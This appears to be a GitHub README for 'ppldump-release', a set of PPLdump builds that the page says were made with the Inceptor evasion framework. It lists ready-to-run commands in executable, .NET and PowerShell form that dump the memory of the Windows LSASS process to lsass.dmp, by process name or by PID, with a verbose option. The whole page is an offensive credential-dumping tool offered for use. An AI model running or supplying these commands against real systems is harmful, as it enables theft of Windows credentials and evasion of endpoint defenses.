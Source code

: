 # ppldump-release
PPLDump Release

Disclaimer: This releases have been created using the [Inceptor](https://github.com/klezVirus/inceptor) framework.

### Lsass Dump (Process image name)
```
PPLdump.exe lsass.exe lsass.dmp
```

### Lsass Dump (Process PID)
```
PPLdump.exe 720 lsass.dmp
```

### Lsass Dump (verbose)
```
PPLdump.exe -v lsass.exe lsass.dmp
```
### Lsass Dump .NET (DotNet Version Requires no Parameter)
```
PPLdumpnet.exe
```
### Lsass Dump PS (PowerShell Version Requires no Parameter)
```
PPLdumpps.ps1
```


